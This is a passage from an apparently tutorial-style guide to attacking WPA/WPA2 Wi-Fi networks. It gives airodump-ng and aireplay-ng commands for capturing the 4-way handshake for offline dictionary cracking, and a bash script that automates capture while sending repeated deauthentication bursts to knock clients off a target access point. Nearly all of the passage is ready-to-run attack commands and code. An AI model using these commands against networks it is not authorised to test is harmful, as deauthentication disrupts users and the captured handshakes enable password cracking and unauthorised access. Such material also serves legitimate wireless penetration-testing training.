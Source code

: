 ### WPA/WPA2 Handshake Capture

WPA/WPA2 attacks require capturing the 4-way handshake for offline dictionary attacks.

#### Complete Handshake Capture Process

```bash
# Step 1: Start monitoring target network
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa-handshake wlan0mon

# Step 2: Wait for client to connect naturally, OR force reconnection
# In separate terminal:
sudo aireplay-ng -0 3 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon

# Step 3: Look for "WPA handshake: AA:BB:CC:DD:EE:FF" in airodump output
# Step 4: Stop capture with Ctrl+C when handshake captured

# Step 5: Verify handshake capture
aircrack-ng -b AA:BB:CC:DD:EE:FF wpa-handshake-01.cap
```

#### Automated Handshake Capture

```bash
#!/bin/bash
# auto-handshake.sh - Automated WPA handshake capture

TARGET_BSSID="$1"
TARGET_CHANNEL="$2"
CAPTURE_TIME="${3:-60}"
INTERFACE="wlan0mon"

if [[ -z "$TARGET_BSSID" || -z "$TARGET_CHANNEL" ]]; then
    echo "Usage: $0 <BSSID> <CHANNEL> [capture_time_seconds]"
    exit 1
fi

CAPTURE_FILE="handshake-$(echo $TARGET_BSSID | tr ':' '-')-$(date +%Y%m%d-%H%M%S)"

echo "[*] Starting handshake capture for $TARGET_BSSID on channel $TARGET_CHANNEL"
echo "[*] Capture file: $CAPTURE_FILE"

# Start capture
airodump-ng -c "$TARGET_CHANNEL" --bssid "$TARGET_BSSID" -w "$CAPTURE_FILE" "$INTERFACE" &
CAPTURE_PID=$!

# Let capture run for a few seconds
sleep 5

echo "[*] Sending deauthentication packets"
# Send deauth packets in batches
for i in {1..3}; do
    aireplay-ng -0 5 -a "$TARGET_BSSID" "$INTERFACE" &
    sleep 10
done

# Continue capturing
echo "[*] Continuing capture for $CAPTURE_TIME seconds"
sleep "$CAPTURE_TIME"

# Stop capture
kill $CAPTURE_PID
wait $CAPTURE_PID 2>/dev/null

echo "[*] Checking for handshake"
```